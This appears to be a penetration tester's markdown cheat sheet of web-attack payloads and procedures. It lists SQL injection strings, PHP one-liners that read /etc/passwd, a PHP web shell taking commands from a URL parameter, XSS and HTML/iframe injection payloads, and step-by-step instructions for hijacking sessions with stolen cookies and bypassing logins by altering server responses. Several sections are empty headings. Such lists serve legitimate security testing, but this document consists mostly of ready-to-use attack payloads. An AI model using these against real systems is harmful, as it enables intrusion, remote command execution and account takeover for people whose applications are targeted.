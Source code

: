 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```
## Error Based SQL Injection:

## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
''2 OR 1=1
"2 OR 1=1
'2 AND 1=1
''2 AND 1=1
"2 AND 1=1
```
## Local File Inclusion (LFI):
```


```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("cat /etc/passwd");?>
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```

```
## File Upload Bypass:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
```
## Session Hijacking:
```
Step1: Using xss hunter payload, execute the payload in logged in user account.
Step2: After got the cookies in the XSS Hunter.
Step3: Copy the cookies and before login paste and change into the cookies and refresh it.
```
## Session Fixation in The Application:
```
Step1: Before login, Check the cookie or session token.
Step2: Then After login, Check the cookie or session token, If same token or cookies is there.
```
## URL Redirection in the application:
```
#### Enpoint Pattern:
/?url=
/?redirect_url:
/?checkout_url=
/?login_url=
/?redirect_uri=
```
## Reflected Cross Site Scripting Attack:
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)//
"onmouseover=alert(1);
<x onclick=alert(1)>click!
```
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://www.intelliroot.com">Test</a>
```
## Iframe Injection:
```
<iframe src="https://https://www.intelliroot.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF)
### Test CGI script exposes environment variables
### Account Takeover through forget password
### Improper File Content Validation in the Application
### No Session Termination After Password Change
### Password History Check is not Implemented
### Concurrent Logins with the Same Username in admin/user account
### Trace method Enabled
### Full path disclosure
### Improper Input Validation in the Application:
```
<script>alert(1)</script>
<h1>Test</h1>
```
### Client side validation bypass of email and phone number verification
### Application is Vulnerable to Clickjacking Attacks
### OpenSSL Version disclose in the application
### Last Login Time Not Implemented in the Application

